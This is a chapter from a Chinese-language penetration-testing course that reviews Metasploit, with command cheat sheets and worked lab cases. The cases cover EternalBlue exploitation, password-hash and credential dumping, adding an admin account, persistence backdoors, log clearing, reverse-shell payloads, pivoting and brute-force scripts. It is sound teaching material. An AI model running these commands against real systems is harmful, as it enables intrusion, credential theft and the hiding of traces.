





# 第42章 总结与回顾：MSF模块

> **难度等级：🟠 高等级**
>
> **预计学习时间：60分钟**
>
> **本章看点：MSF知识图谱、必背知识点TOP20、常用命令速查表、常见问题与坑点、MSF插件推荐、学习资源、5个综合案例、30道综合练习题**

::: tip 说明
恭喜你！
MSF模块的三章内容就学完了。

这三章我们学习了：
- 第39章：MSF基础入门（架构、模块、msfconsole、msfvenom）
- 第40章：Meterpreter深入探索（后渗透神器）
- 第41章：MSF高级应用（数据库、扫描、模块编写、联动...）

这一章我们来做一个全面的总结，
帮你把学到的知识串起来，
形成完整的知识体系。

同时，
我们还会分享一些MSF的使用技巧、
常见坑点、
推荐的插件和学习资源。

学完这一章，
你对MSF的掌握会更上一层楼。

准备好了吗？
开始！
:::

> 🎯 **大白话复习MSF三章**
>
> MSF三章学完了，用一张表帮你理清脉络：
>
> | 章节 | 解决什么问题 | 一句话总结 |
> |------|-------------|-----------|
> | 第39章 MSF基础 | MSF是什么？怎么用？ | "这是一个超级工具箱，里面分六种工具，用msfconsole命令来操作" |
> | 第40章 Meterpreter | 拿到Shell后能做什么？ | "Meterpreter是个内存级遥控器，比普通Shell强100倍" |
> | 第41章 MSF高级 | 怎么用得更专业？ | "数据库+工作区+脚本+自定义模块，从会用变成精通" |
>
> **学习路径记住三点**：
> 1. 先会用：msfconsole → search → use → set → run
> 2. 再用好：Meterpreter的各种后渗透命令形成肌肉记忆
> 3. 最后精通：数据库管理 + rc脚本 + 自定义模块 + CS联动

---

## 📖 本章概述

::: tip 写在前面
MSF是红队的必备工具，
也是内网渗透的核心武器。

但很多人学MSF，
学了很久还是只会：
- search找模块
- use选模块
- set设参数
- run执行

这样可不行，
MSF的功能远不止这些。

真正掌握MSF，
你需要：
1. 理解MSF的架构和原理
2. 熟练使用常用的模块
3. 会用数据库管理数据
4. 会写rc脚本自动化
5. 了解模块编写方法
6. 能和其他工具联动

这一章我们就把这些知识串起来，
帮你构建完整的MSF知识体系。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 建立完整的MSF知识体系
- [x] 掌握MSF的核心知识点
- [x] 记住常用的MSF命令
- [x] 避开MSF使用中的常见坑
- [x] 知道去哪里学习更多MSF知识
- [x] 能独立用MSF完成一次完整的渗透测试

---

## 🗺️ MSF知识图谱

### 1.1 整体架构图

MSF的整体架构可以用一张图来概括：

```
Metasploit Framework
    │
    ├── Interfaces（用户界面）
    │   ├── msfconsole（命令行界面）
    │   ├── msfcli（旧版命令行）
    │   ├── msfgui（图形界面）
    │   ├── msfweb（Web界面）
    │   └── Armitage / Cobalt Strike（第三方）
    │
    ├── Modules（模块系统）
    │   ├── Exploits（漏洞利用模块）
    │   ├── Payloads（Payload模块）
    │   ├── Auxiliary（辅助模块）
    │   ├── Post（后渗透模块）
    │   ├── Encoders（编码模块）
    │   ├── Nops（NOP生成模块）
    │   └── Evasion（免杀模块）
    │
    ├── Libraries（核心库）
    │   ├── Rex（基础库）
    │   ├── Msf::Core（核心框架）
    │   └── Msf::Base（基类）
    │
    └── Database（数据库）
        ├── PostgreSQL（默认数据库）
        ├── Workspaces（工作区）
        ├── Hosts（主机）
        ├── Services（服务）
        ├── Creds（凭证）
        └── Vulns（漏洞）
```

**图42-1 Metasploit Framework整体架构图**



### 1.2 七大模块详解

| 模块类型 | 作用 | 数量 | 常用程度 |
|---------|------|------|---------|
| **Exploits** | 漏洞利用，拿Shell | 2000+ | ⭐⭐⭐⭐⭐ |
| **Payloads** | 攻击载荷，Shell代码 | 500+ | ⭐⭐⭐⭐⭐ |
| **Auxiliary** | 辅助模块，扫描/爆破/信息收集 | 1000+ | ⭐⭐⭐⭐⭐ |
| **Post** | 后渗透模块，拿到Shell后用 | 500+ | ⭐⭐⭐⭐ |
| **Encoders** | 编码器，对Payload编码 | 50+ | ⭐⭐⭐ |
| **Nops** | NOP生成器，滑梯 | 20+ | ⭐⭐ |
| **Evasion** | 免杀模块 | 10+ | ⭐⭐ |

### 1.3 渗透测试流程中的MSF

MSF在一次完整的渗透测试中，
每个阶段都能发挥作用：

**1. 信息收集阶段**
- 端口扫描：`auxiliary/scanner/portscan/`
- 服务识别：各种version模块
- 信息收集：`auxiliary/gather/`
- 漏洞扫描：各种scanner模块

**2. 漏洞利用阶段**
- 查找漏洞：`search`
- 选择模块：`use`
- 设置参数：`set`
- 执行利用：`exploit` / `run`

**3. 后渗透阶段**
- Meterpreter命令
- Post模块
- 凭证收集
- 权限提升
- 横向移动
- 持久化

**4. 报告阶段**
- 数据库导出
- 数据整理
- 报告生成

**图42-2 MSF在渗透测试各阶段的应用流程图**



---

## 📌 必背知识点TOP20

### 2.1 基础概念类

1. **MSF是什么？**
   Metasploit Framework，一个开源的漏洞利用框架，
   集成了大量的漏洞利用代码、Payload和辅助工具。

2. **七大模块分别是什么？**
   Exploits、Payloads、Auxiliary、Post、Encoders、Nops、Evasion

3. **Meterpreter是什么？**
   MSF的高级Payload，运行在内存中，
   提供强大的后渗透功能。

4. **Staged vs Stageless？**
   - Staged：分阶段传输，体积小，分两次
   - Stageless：一次性传输，体积大，一次完成

5. **Reverse vs Bind？**
   - Reverse（反向）：目标主动连接我们
   - Bind（正向）：我们主动连接目标

### 2.2 常用命令类

6. **启动MSF：**
   ```bash
   msfconsole
   ```

7. **搜索模块：**
   ```bash
   search ms17-010
   search type:exploit platform:windows
   ```

8. **使用模块：**
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```

9. **查看/设置参数：**
   ```bash
   show options
   set RHOSTS 192.168.1.100
   set LHOST 192.168.1.10
   ```

10. **执行利用：**
    ```bash
    exploit
    run
    exploit -j  # 后台运行
    ```

### 2.3 数据库类

11. **数据库状态：**
    ```bash
    db_status
    ```

12. **工作区管理：**
    ```bash
    workspace                # 查看当前
    workspace -a name        # 创建
    workspace name           # 切换
    workspace -d name        # 删除
    ```

13. **查看数据：**
    ```bash
    hosts         # 主机
    services      # 服务
    creds         # 凭证
    vulns         # 漏洞
    notes         # 笔记
    ```

### 2.4 Meterpreter类

14. **基础信息：**
    ```bash
    sysinfo       # 系统信息
    getuid        # 当前用户
    ipconfig      # 网络信息
    ps            # 进程列表
    ```

15. **文件操作：**
    ```bash
    ls            # 列出文件
    cd            # 切换目录
    upload        # 上传文件
    download      # 下载文件
    cat           # 查看文件
    ```

16. **权限相关：**
    ```bash
    getystem      # 提权到System
    hashdump      # 导出密码Hash
    migrate       # 迁移进程
    ```

17. **网络操作：**
    ```bash
    portfwd       # 端口转发
    run autoroute # 添加路由
    ```

### 2.5 msfvenom类

18. **生成Payload：**
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp \
      LHOST=192.168.1.10 LPORT=4444 \
      -f exe -o payload.exe
    ```

19. **编码：**
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp \
      LHOST=192.168.1.10 LPORT=4444 \
      -e x86/shikata_ga_nai -i 5 \
      -f exe -o payload.exe
    ```

20. **Handler监听：**
    ```bash
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 0.0.0.0
    set LPORT 4444
    run -j
    ```

**图42-3 MSF必背知识点TOP20分类体系图**



---

## ⌨️ 常用命令速查表

### 3.1 msfconsole核心命令

| 命令 | 说明 |
|------|------|
| `help` | 帮助 |
| `search <关键词>` | 搜索模块 |
| `use <模块名>` | 使用模块 |
| `back` | 返回上级 |
| `show options` | 查看选项 |
| `show targets` | 查看目标 |
| `show payloads` | 查看Payload |
| `show advanced` | 查看高级选项 |
| `set <参数> <值>` | 设置参数 |
| `setg <参数> <值>` | 设置全局参数 |
| `unset <参数>` | 取消设置 |
| `unsetg <参数>` | 取消全局设置 |
| `run` / `exploit` | 执行 |
| `run -j` | 后台执行 |
| `check` | 检测漏洞 |
| `info` | 查看模块信息 |

### 3.2 数据库命令

| 命令 | 说明 |
|------|------|
| `db_status` | 数据库状态 |
| `db_connect` | 连接数据库 |
| `db_disconnect` | 断开数据库 |
| `db_export` | 导出数据 |
| `db_import` | 导入数据 |
| `db_nmap` | 调用Nmap扫描 |
| `hosts` | 查看主机 |
| `services` | 查看服务 |
| `creds` | 查看凭证 |
| `vulns` | 查看漏洞 |
| `notes` | 查看笔记 |
| `loot` | 查看战利品 |

### 3.3 会话管理命令

| 命令 | 说明 |
|------|------|
| `sessions -l` | 列出会话 |
| `sessions -i <id>` | 进入会话 |
| `sessions -k <id>` | 杀死会话 |
| `sessions -K` | 杀死所有会话 |
| `sessions -u <id>` | 升级会话 |
| `sessions -n <name> -i <id>` | 命名会话 |
| `background` | 后台会话（Ctrl+Z） |

### 3.4 Meterpreter常用命令

| 分类 | 命令 | 说明 |
|------|------|------|
| **系统** | `sysinfo` | 系统信息 |
| | `getuid` | 当前用户 |
| | `getpid` | 当前进程ID |
| | `ps` | 进程列表 |
| | `kill <pid>` | 杀死进程 |
| | `migrate <pid>` | 迁移进程 |
| | `shell` | 打开CMD Shell |
| | `execute` | 执行程序 |
| **文件** | `pwd` / `lpwd` | 当前目录 |
| | `ls` / `lls` | 列出文件 |
| | `cd` / `lcd` | 切换目录 |
| | `cat <file>` | 查看文件 |
| | `upload <file>` | 上传文件 |
| | `download <file>` | 下载文件 |
| | `mkdir <dir>` | 创建目录 |
| | `rm <file>` | 删除文件 |
| **网络** | `ipconfig` | 网络信息 |
| | `route` | 路由表 |
| | `portfwd add -l <本地> -p <远程> -r <目标>` | 端口转发 |
| | `run autoroute -s <网段>` | 添加路由 |
| **权限** | `getsystem` | 获取System权限 |
| | `hashdump` | 导出密码Hash |
| | `run hashdump` | 导出Hash（另一种方式） |
| **用户界面** | `screenshot` | 截图 |
| | `webcam_snap` | 摄像头拍照 |
| | `keyscan_start` | 开始键盘记录 |
| | `keyscan_dump` | 导出键盘记录 |
| | `keyscan_stop` | 停止键盘记录 |
| **其他** | `clearev` | 清除事件日志 |
| | `timestomp` | 修改文件时间戳 |
| | `idletime` | 查看用户空闲时间 |
| | `reboot` / `shutdown` | 重启/关机 |
| | `exit` | 退出Meterpreter |

### 3.5 msfvenom常用参数

| 参数 | 说明 |
|------|------|
| `-p <payload>` | 指定Payload |
| `-f <格式>` | 输出格式（exe, dll, elf, py, php, c...） |
| `-e <编码器>` | 指定编码器 |
| `-i <次数>` | 编码次数 |
| `-n <数量>` | NOP数量 |
| `-o <文件>` | 输出到文件 |
| `-a <架构>` | 架构（x86, x64...） |
| `--platform <平台>` | 平台（windows, linux...） |
| `-s <大小>` | Payload最大大小 |
| `-x <模板>` | 使用自定义模板文件 |
| `-k` | 保持模板文件原有功能 |

---

## ⚠️ 常见问题与坑点TOP10

### 坑1：Payload不匹配导致失败

**问题：**
模块用的是64位，Payload选了32位，
或者反过来，导致利用失败。

**解决：**
- 先确认目标系统是32位还是64位
- 选择对应架构的Payload
- 不确定的话，可以都试试

### 坑2：LHOST设置错误

**问题：**
LHOST设成了内网IP，
目标在外网连不回来，
或者反过来。

**解决：**
- 搞清楚网络拓扑
- 目标能访问到哪个IP就设哪个
- 可以用0.0.0.0监听所有地址

### 坑3：防火墙拦截导致连不上

**问题：**
明明Payload执行了，
但就是没有会话回来。

**解决：**
- 检查防火墙是否拦截
- 试试用常见端口（80, 443, 53）
- 试试reverse_https，更隐蔽

### 坑4：目标选错导致打蓝屏

**问题：**
漏洞利用模块的Target选错了，
导致目标系统蓝屏。

**解决：**
- 先准确识别目标系统版本
- 仔细看每个Target的说明
- 先用check检测一下
- 重要系统慎打内核漏洞

### 坑5：数据库连接失败

**问题：**
db_status显示没有连接，
或者msfdb init失败。

**解决：**
- 检查PostgreSQL服务是否启动
- 检查配置文件 `~/.msf4/database.yml`
- 试试 `msfdb reinit` 重新初始化
- 不行就手动连接数据库

### 坑6：编码次数越多越好？

**问题：**
以为编码次数越多免杀效果越好，
结果编了几十次，
Payload大得用不了，
或者运行出错。

**解决：**
- 编码次数不是越多越好
- 一般3-10次就够了
- 太多会导致体积大、出错率高
- 免杀不能只靠编码

### 坑7：批量利用把内网打崩了

**问题：**
看到C段很多机器有MS17-010，
直接批量打，
结果打蓝屏一堆机器，
动静太大被发现了。

**解决：**
- 不要上来就批量打
- 先小范围测试，确认没问题
- 注意时间，避开业务高峰期
- 护网中注意规则，不要搞破坏

### 坑8：Meterpreter中文乱码

**问题：**
Meterpreter中执行命令，
中文显示乱码。

**解决：**
- 设置终端编码为UTF-8
- 或者用chcp 65001切换代码页
- 实在不行就把输出写到文件再下载

### 坑9：进程迁移失败

**问题：**
想迁移到其他进程，
结果失败了，
甚至会话都丢了。

**解决：**
- 迁移到权限相同或更高的进程
- 不要迁移到关键进程
- 先确认目标进程存在
- 迁移前最好先备份

### 坑10：只靠MSF不行

**问题：**
以为有了MSF就无敌了，
结果遇到复杂的环境，
MSF打不通，
就不知道怎么办了。

**解决：**
- MSF只是工具，不是万能的
- 要学习手动漏洞利用
- 要掌握多种工具
- 思路比工具更重要

---

## 🔌 MSF插件推荐

### 5.1 必装插件

MSF本身就很强大了，
但还有一些插件能让它更强大。

**1. MSFPC（MSF Payload Creator）**
- 一键生成各种Payload
- 比手动输msfvenom命令方便多了
- 支持多种格式和编码

**安装：**
```bash
apt install metasploit-framework
# MSFPC一般在Kali里自带
msfpc
```

**2. Armitage**
- MSF的图形界面
- 可视化操作，适合新手
- 团队协作功能

**安装：**
```bash
apt install armitage
```

**3. Recon-ng**
- 信息收集框架
- 虽然不是MSF插件，但经常配合使用
- 被动信息收集神器

**4. Social Engineering Toolkit (SET)**
- 社会工程学工具包
- 钓鱼网站、鱼叉邮件等
- 和MSF配合使用

### 5.2 有用的脚本

**1. AutoBlue-MS17-010**
- MS17-010自动利用脚本
- 比MSF的模块更稳定
- 支持更多Windows版本

**2. Empire / Starkiller**
- PowerShell后渗透工具
- 和MSF功能类似，但专注于PowerShell
- 可以和MSF联动

**3. Mimikatz**
- 凭证窃取神器
- MSF里有集成，但单独用也很强
- 各种抓密码的姿势

### 5.3 MSF扩展库

**1. msf-vnc**
- VNC相关的模块

**2. msf-pcap**
- PCAP文件处理

**3. msf-recon**
- 侦察模块扩展

::: tip 提示
插件虽然多，
但不要贪多，
先把MSF本身用好，
再根据需要装插件。

很多人装了一堆插件，
结果一个都用不熟练，
反而影响效率。
:::

---

## 📚 学习资源推荐

### 6.1 官方资源

1. **官方文档**
   - 网址：https://docs.metasploit.com/
   - 最权威的学习资料
   - 模块说明、API文档都有

2. **官方GitHub**
   - 网址：https://github.com/rapid7/metasploit-framework
   - 源码就是最好的学习材料
   - 遇到问题可以提Issue

3. **官方博客**
   - 网址：https://www.metasploit.com/blog
   - 最新功能介绍
   - 安全研究文章

### 6.2 书籍推荐

1. **《Metasploit：The Penetration Tester's Guide》**
   - MSF创始人写的书
   - 经典中的经典
   - 虽然有点老，但基础概念讲得很好

2. **《Metasploit渗透测试指南》**
   - 上面那本书的中文版
   - 适合英语不好的同学

3. **《精通Metasploit渗透测试》**
   - 更深入的内容
   - 适合有一定基础的人

### 6.3 在线教程

1. **Offensive Security官方培训**
   - OSCP培训的一部分
   - 质量很高，但价格不菲

2. **YouTube教程**
   - 搜索Metasploit教程
   - 很多免费的优质视频
   - 推荐频道：Hackersploit、The Cyber Mentor

3. **B站教程**
   - 国内的视频教程
   - 中文的，看起来方便
   - 注意辨别质量

### 6.4 练习平台

1. **Hack The Box**
   - 在线靶场
   - 很多机器适合用MSF练手
   - 社区活跃，有Writeup

2. **TryHackMe**
   - 更适合新手
   - 有专门的MSF房间
   - 引导式学习

3. **VulnHub**
   - 大量的虚拟机靶机
   - 下载下来自己搭
   - 各种难度都有

4. **本地实验环境**
   - 自己搭域环境
   - 装各种有漏洞的系统
   - 最接近真实环境

**图42-5 MSF学习路径与资源推荐图**



---

## 🎯 综合案例

### 案例1：一次完整的MSF渗透测试流程

**场景：**
目标：一台Windows 7虚拟机（192.168.1.100）
任务：用MSF完成一次完整的渗透测试

**步骤：**

**第一步：初始化**
```bash
# 启动MSF
msfconsole

# 检查数据库
db_status

# 创建工作区
workspace -a test
workspace test
```

**第二步：扫描识别**
```bash
# 端口扫描
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.100
set PORTS 1-1000
run

# 查看结果
services

# SMB版本识别
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.100
run
# 发现是Windows 7，没有打补丁
```

**第三步：漏洞检测**
```bash
# 检测MS17-010
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.1.100
run
# 显示存在漏洞！
```

**第四步：漏洞利用**
```bash
# 使用MS17-010模块
use exploit/windows/smb/ms17_010_eternalblue

# 设置参数
set RHOSTS 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444

# 设置目标
show targets
set TARGET 0  # Windows 7

# 执行
exploit
# 拿到Meterpreter！
```

**第五步：后渗透**
```bash
# 查看信息
sysinfo
getuid
# 已经是System权限了！

# 导出密码Hash
hashdump

# 查看进程
ps

# 抓取密码（加载kiwi）
load kiwi
creds_all

# 截图
screenshot

# 开启RDP
run post/windows/manage/enable_rdp

# 添加用户
run post/windows/manage/add_user USERNAME=admin PASSWORD=P@ssw0rd ADMIN=true
```

**第六步：持久化**
```bash
# 安装服务后门
run metsvc
# 或者用persistence模块
run persistence -U -i 60 -p 4444 -r 192.168.1.10
```

**第七步：清理痕迹**
```bash
# 清除事件日志
clearev

# 退出
exit
```

**第八步：总结报告**
```bash
# 查看收集到的信息
hosts
creds
vulns

# 导出数据
db_export -f xml report.xml
```

**总结：**
- 从扫描到拿到System权限，只用了几分钟
- MSF把复杂的漏洞利用变得简单
- 但不要只会点鼠标，要理解原理

**图42-4 MSF完整渗透测试标准流程图**



### 案例2：从WebShell到内网渗透

**场景：**
我们通过Web漏洞拿到了一台Web服务器的Shell，
这台服务器在内网中，
我们想以它为跳板，
渗透整个内网。

**步骤：**

**第一步：获取Meterpreter**
```bash
# 生成PHP Payload
msfvenom -p php/meterpreter/reverse_tcp \
  LHOST=公网IP LPORT=4444 \
  -f raw -o shell.php

# 上传到目标服务器并执行
# （假设已经通过WebShell上传了）

# 开启监听
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run -j
```

**第二步：信息收集**
```bash
# 进入会话
sessions -i 1

# 系统信息
sysinfo
getuid

# 网络信息
ipconfig
# 发现内网网段：10.0.0.0/24

# 查看路由表
route
```

**第三步：添加内网路由**
```bash
# 方法一：autoroute模块
run post/windows/manage/autoroute SUBNET=10.0.0.0 NETMASK=255.255.255.0

# 方法二：Meterpreter命令
run autoroute -s 10.0.0.0/24

# 验证路由
run autoroute -p
```

**第四步：内网扫描**
```bash
# 后台当前会话
background

# 端口扫描内网
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.0.0.0/24
set PORTS 80,445,3306,3389
set THREADS 50
run

# 查看结果
hosts
services
```

**第五步：内网漏洞利用**
```bash
# 假设发现10.0.0.50有MS17-010漏洞
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.0.0.50
set PAYLOAD windows/meterpreter/bind_tcp
run
# 注意：这里用bind_tcp，因为目标不能直接连我们
# 流量通过第一台机器转发
```

**第六步：继续扩展**
```bash
# 拿到第二台机器的Shell
# 继续收集信息，继续横向
# ...

# 最后可能拿下整个内网
```

**总结：**
- MSF的路由功能非常强大
- 可以把Meterpreter当做跳板
- 一层一层向内网渗透

### 案例3：用rc脚本实现自动化扫描

**场景：**
每次护网行动，
第一步都是各种扫描，
手动敲命令太麻烦，
我们写一个rc脚本一键完成。

**脚本：scan_all.rc**

```bash
# ==========================================
# 自动化扫描脚本
# 用法：msfconsole -r scan_all.rc
# ==========================================

print_status("=" * 50)
print_status("自动化扫描脚本启动")
print_status("=" * 50)

# ---------- 配置部分 ----------
# 目标网段
setg RHOSTS 192.168.1.0/24
# 你的IP
setg LHOST 192.168.1.10
# 线程数
setg THREADS 50

# ---------- 工作区 ----------
workspace -a scan_$(date +%Y%m%d)
workspace scan_$(date +%Y%m%d)

print_status("工作区已创建")

# ---------- 端口扫描 ----------
print_status("[1/6] 开始端口扫描...")

use auxiliary/scanner/portscan/tcp
set PORTS 21,22,23,25,53,80,110,135,139,143,443,445,993,995,1433,1521,3306,3389,5432,5900,5985,6379,7001,8080,8443
run

print_status("端口扫描完成！")
services

# ---------- 服务识别 ----------
print_status("[2/6] 开始服务识别...")

# HTTP服务识别
use auxiliary/scanner/http/http_version
run

# SMB服务识别
use auxiliary/scanner/smb/smb_version
run

# SSH服务识别
use auxiliary/scanner/ssh/ssh_version
run

# FTP服务识别
use auxiliary/scanner/ftp/ftp_version
run

print_status("服务识别完成！")
services

# ---------- 漏洞扫描 ----------
print_status("[3/6] 开始漏洞扫描...")

# MS17-010扫描
use auxiliary/scanner/smb/smb_ms17_010
run

# MS08-067扫描
use auxiliary/scanner/smb/smb_ms08_067
run

# Heartbleed扫描
use auxiliary/scanner/ssl/openssl_heartbleed
run

print_status("漏洞扫描完成！")
vulns

# ---------- 弱口令爆破 ----------
print_status("[4/6] 开始弱口令扫描...")

# SMB爆破（先试几个常见的）
use auxiliary/scanner/smb/smb_login
set USER_FILE /usr/share/wordlists/common_users.txt
set PASS_FILE /usr/share/wordlists/common_pass.txt
set THREADS 10
run

# SSH爆破
use auxiliary/scanner/ssh/ssh_login
set USER_FILE /usr/share/wordlists/common_users.txt
set PASS_FILE /usr/share/wordlists/common_pass.txt
set THREADS 10
run

print_status("弱口令扫描完成！")
creds

# ---------- 信息收集 ----------
print_status("[5/6] 开始信息收集...")

# SNMP枚举
use auxiliary/scanner/snmp/snmp_enum
set COMMUNITY public
run

print_status("信息收集完成！")

# ---------- 结果汇总 ----------
print_status("[6/6] 结果汇总...")
print_status("")
print_status("存活主机数：")
hosts -c
print_status("")
print_status("开放服务数：")
services -c
print_status("")
print_status("发现漏洞数：")
vulns -c
print_status("")
print_status("凭证数：")
creds -c

print_status("=" * 50)
print_status("扫描全部完成！")
print_status("=" * 50)

# 导出结果
db_export -f xml scan_result_$(date +%Y%m%d_%H%M).xml
print_status("结果已导出到XML文件")
```

**使用方法：**
```bash
msfconsole -r scan_all.rc
```

**效果：**
- 一键完成所有扫描
- 不用手动敲那么多命令
- 新人也能快速上手
- 结果自动保存和导出

### 案例4：MSF + Cobalt Strike 联动实战

**场景：**
护网行动中，
我们用MSF打了很多漏洞，
但团队协作不方便，
决定转到Cobalt Strike。

**步骤：**

**第一步：准备CS的Foreign监听器**
1. 打开CS客户端
2. 进入Listeners视图
3. 点击Add
4. Payload选择：`windows/beacon_http/reverse_http`
   不对，Foreign监听器应该是：
   Payload: `windows/foreign/reverse_http`
5. 设置Host和Port
6. 保存

**第二步：MSF中的Meterpreter转到CS**

方法一：用inject_payload模块
```bash
# 假设当前有一个Meterpreter会话，ID是1
use post/windows/manage/inject_payload
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_http
set LHOST <CS服务器IP>
set LPORT <CS监听器端口>
run
```

方法二：手动上传Beacon
```bash
# 进入会话
sessions -i 1

# 上传Beacon
upload beacon.exe C:\\Windows\\Temp\\beacon.exe

# 执行
execute -H -f C:\\Windows\\Temp\\beacon.exe

# 或者用计划任务
execute -f cmd.exe -a "/c schtasks /create /tn \"Update\" /tr C:\\Windows\\Temp\\beacon.exe /sc onstart /ru system"
```

方法三：用CS的spawn功能
- 这个是反过来的，从CS派生出MSF的会话

**第三步：验证**
- 回到CS客户端
- 看到Beacon上线了！
- 以后就可以用CS来操作了

**为什么要联动？**
1. CS的团队协作功能比MSF好太多
2. CS的Beacon更稳定、更隐蔽
3. MSF漏洞利用模块多，适合打入口
4. CS适合后续的后渗透和横向移动
5. 两者结合，效率最高

### 案例5：MSF在护网行动中的实战经验

**场景：**
参加护网行动，
分享一些MSF使用的实战经验。

**经验1：数据库一定要用起来**
- 不要手动记笔记
- 所有信息都存到数据库
- 用工作区分项目
- 定期备份

**经验2：rc脚本大大提高效率**
- 把常用操作都写成脚本
- 扫描、利用、后渗透都能自动化
- 减少重复劳动
- 减少人为错误

**经验3：多Handler监听**
```bash
# 同时监听多个端口
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 80
run -j

set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 443
run -j

set PAYLOAD windows/meterpreter/reverse_https
set LPORT 8443
run -j

set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LPORT 5555
run -j
```
- 不同的Payload用不同的端口
- 总有一个能用上

**经验4：会话管理要做好**
- 给会话命名，方便识别
- 重要的会话做持久化
- 定期检查会话是否在线
- 不用的会话及时清理

**经验5：不要只靠MSF**
- MSF是工具，不是万能的
- 很多漏洞MSF没有现成的模块
- 要学会手动利用
- 要掌握多种工具
- 思路永远比工具重要

**经验6：注意隐蔽性**
- 不要一上来就批量扫描
- 不要用默认的端口和配置
- 注意流量特征
- 能慢一点就慢一点
- 护网中被发现就输了

**经验7：做好备份**
- 数据库定期导出备份
- 重要的Payload多做几个版本
- 重要的操作先截图留证
- 万一出问题，有备份还能恢复

---

## ✏️ 综合练习（30道）

### 一、选择题（10道）

1. Metasploit Framework是由哪家公司维护的？
   A. Microsoft
   B. Rapid7
   C. Google
   D. Offensive Security

2. MSF的默认数据库是？
   A. MySQL
   B. SQLite
   C. PostgreSQL
   D. MongoDB

3. 以下哪个不是MSF的七大模块？
   A. Exploits
   B. Payloads
   C. Auxiliary
   D. Malware

4. 查看当前工作区的命令是？
   A. workspace
   B. db_status
   C. hosts
   D. current

5. Meterpreter的特点不包括？
   A. 运行在内存中
   B. 功能强大
   C. 只能在Windows上运行
   D. 支持脚本扩展

6. 以下哪个是Stageless Payload？
   A. windows/meterpreter/reverse_tcp
   B. windows/meterpreter_reverse_tcp
   C. windows/shell/reverse_tcp
   D. windows/dllinject/reverse_tcp

7. msfvenom中指定输出格式的参数是？
   A. -o
   B. -f
   C. -p
   D. -e

8. 把会话放到后台的快捷键是？
   A. Ctrl+C
   B. Ctrl+Z
   C. Ctrl+D
   D. Ctrl+X

9. 查看数据库中所有凭证的命令是？
   A. hosts
   B. services
   C. creds
   D. vulns

10. 以下哪个模块可以用来添加内网路由？
    A. autoroute
    B. portfwd
    C. hashdump
    D. migrate

### 二、填空题（10道）

1. MSF的七大模块分别是：______、Payloads、Auxiliary、Post、Encoders、Nops、Evasion。
2. Meterpreter中获取System权限的命令是 ______。
3. msfvenom中指定编码器的参数是 ______。
4. 查看所有会话的命令是 `sessions ______`。
5. 导出密码Hash的命令是 ______。
